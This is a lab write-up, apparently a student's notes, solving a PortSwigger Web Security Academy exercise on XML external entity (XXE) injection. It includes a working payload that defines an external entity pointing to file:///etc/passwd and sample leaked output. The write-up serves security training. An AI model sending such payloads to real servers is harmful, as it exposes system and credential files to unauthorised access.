

## Exploiting XXE using external entities to retrieve files

**Title:** Exploiting XXE using external entities to retrieve files. [Go](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)

**Description:**
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file.

## Preface

To perform an XXE injection attack that retrieves an arbitrary file from the server's filesystem, you need to modify the submitted XML in two ways:

- Introduce (or edit) a `DOCTYPE` element that defines an external entity containing the path to the file.
- Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

For example, suppose a shopping application checks for the stock level of a product by submitting the following XML to the server:
``` XML
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

The application performs no particular defenses against XXE attacks, so you can exploit the XXE vulnerability to retrieve the `/etc/passwd` file by submitting the following XXE payload:
``` XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

This XXE payload defines an external entity `&xxe`; whose value is the contents of the `/etc/passwd` file and uses the entity within the `productId` value. This causes the application's response to include the contents of the file:
```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

## Methodology

### Finding the vulnerable parameter

While solving this lab we are interested in `Check stock` functionality.

### My thought

After clicking the "Check stock" button, and intercepting the resulting POST request in Burp Suite we inserted the following external entity definition in between the XML declaration and the `stockCheck` element: `<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`. We replaced the `productId` number with a reference to the external entity: `&xxe;`. The response should contain "Invalid product ID:" followed by the contents of the `/etc/passwd` file.


